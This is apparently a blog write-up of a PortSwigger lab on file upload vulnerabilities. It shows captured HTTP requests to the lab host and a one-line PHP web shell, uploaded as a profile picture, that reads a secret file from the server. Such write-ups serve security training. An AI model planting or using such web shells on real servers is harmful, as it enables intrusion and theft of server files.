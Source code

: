 ```yaml
---
title: PortSwigger - File upload Vulnerabilities
date: '2024-03-04'
tags: ['PortSwigger', 'PortSwigger Labs', 'Web Security']
draft: false
summary: 
---
```


## File Upload Vulnerabilities
File upload vulnerabilities occur when web servers fail to validate
- File name
- size
- contents
- type or extension

If the server is not validating all of the above things , it can lead to remote code execution or overwriting of existing files as well.
#### Remote code execution via web shell upload
It could be possible that we are able to upload scripts on web server but the server is configured to not execute any file. In that case achieving remote code execution can be difficult.

In the current lab we upload profile picture from the account and we observe the following request is made on refresh to get the picture we just uploaded :

```http
GET /files/avatars/picturename.png HTTP/1.1
Host: 0a4500e703f9730a84b4867f003100ad.web-security-academy.net
Cookie: session=53U0cVadwR2zk98LnhlWHd1cYtTT6OF6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a4500e703f9730a84b4867f003100ad.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Priority: u=5, i
Te: trailers
Connection: keep-alive
```

We make a `exploit.php` with the following script :

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

This lead to the following request:

```http
GET /files/avatars/exploit.php HTTP/1.1
Host: 0a4500e703f9730a84b4867f003100ad.web-security-academy.net
Cookie: session=53U0cVadwR2zk98LnhlWHd1cYtTT6OF6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a4500e703f9730a84b4867f003100ad.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Priority: u=5, i
Te: trailers
Connection: keep-alive
```